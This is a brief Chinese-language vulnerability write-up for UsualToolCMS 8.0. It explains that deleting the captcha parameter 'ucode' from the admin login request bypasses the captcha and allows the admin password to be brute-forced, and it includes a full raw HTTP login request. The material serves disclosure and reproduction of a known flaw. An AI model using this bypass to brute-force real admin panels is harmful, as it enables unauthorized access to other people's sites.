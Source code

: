 ```yaml
---
title: UsualToolcms 8.0 绕过后台验证码爆破
id: zhfly3213
---
```


# UsualToolcms 8.0 绕过后台验证码爆破

## 一、漏洞简介

可通过删除验证码参数，进行暴力破解

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点:http://0-sec.org/cmsadmin/

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![image](../img/250b1e5c16a8b1a1fcf0f7aa2c0de690.png)

![image](../img/a857dbb5b18178eef37dd959b4af47b3.png)

删除ucode参数和cookie后登陆，直接登陆成功

![image](../img/7936caa942376a10b97129709f537d25.png)

通过burp爆破后台密码

![image](../img/e443447827b378eff17bde253f8566a4.png)

![image](../img/b7bf1c45faf4a461fe71fef70e5492d8.png)

```
POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23 `uuser=admin&upass=admin` 
```